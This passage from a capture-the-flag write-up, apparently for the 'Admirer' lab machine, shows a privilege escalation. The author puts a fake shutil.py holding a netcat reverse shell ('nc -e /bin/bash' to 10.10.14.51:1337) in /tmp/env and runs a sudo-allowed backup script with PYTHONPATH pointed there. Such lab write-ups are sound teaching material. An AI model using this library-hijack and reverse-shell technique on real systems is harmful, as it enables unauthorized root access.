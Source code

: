 ```
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
waldo@admirer:~$ cat /opt/scripts/backup.py 
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
waldo@admirer:~$ 
```

So we can see that the admin_tasks.sh script is running `/opt/scripts/backup.py &` in the background. If we choose option 6.

And we can see that python is importing shutil.

So we can use setenv to reroute the pythonpath to a folder we have chosen, then we create shutil.py with a reverse shell.

I try this:

```
waldo@admirer:/tmp/env$ cat shutil.py 
import os

os.system("/bin/nc -e /bin/bash 10.10.14.51 1337")
waldo@admirer:/tmp/env$ sudo -E PYTHONPATH=/tmp/env/ /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...

```

